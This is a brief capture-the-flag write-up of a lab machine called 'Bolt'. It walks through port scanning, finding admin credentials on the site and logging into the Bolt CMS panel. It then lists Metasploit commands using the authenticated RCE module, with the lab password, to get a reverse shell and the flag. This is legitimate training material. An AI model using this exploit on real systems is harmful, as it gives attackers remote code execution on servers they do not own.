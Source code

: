 # Bolt

### Bolt
Nmap scan shows ports 22,80 and 8000 open. Port 80 is a default apache webserver. Port 8000 is another webserver. Visiting around, I found a username: <br />
![image](https://github.com/user-attachments/assets/169e0e0d-8957-4d8d-b53b-95cc6f6ca7be)<br />
And also a password: <br />
![image](https://github.com/user-attachments/assets/c8d4e6fb-6b5c-4d8e-8da3-74e883fe6aa9)<br />
So I log into the admin panel at `/bolt/login` and found the version on the bottom left of the page: <br />
![image](https://github.com/user-attachments/assets/003af5a5-14cb-4c5f-a83e-e4e2db905941)<br />
Let's just use metasploit for this. Open msfconsole and type: <br />
    
    use exploit/unix/webapp/bolt_authenticated_rce
    set lhost YOUR_IP
    set rhosts TARGET_IP
    set username bolt
    set password boltadmin123

This gives me a reverse shell. The flag is inside `/home`.
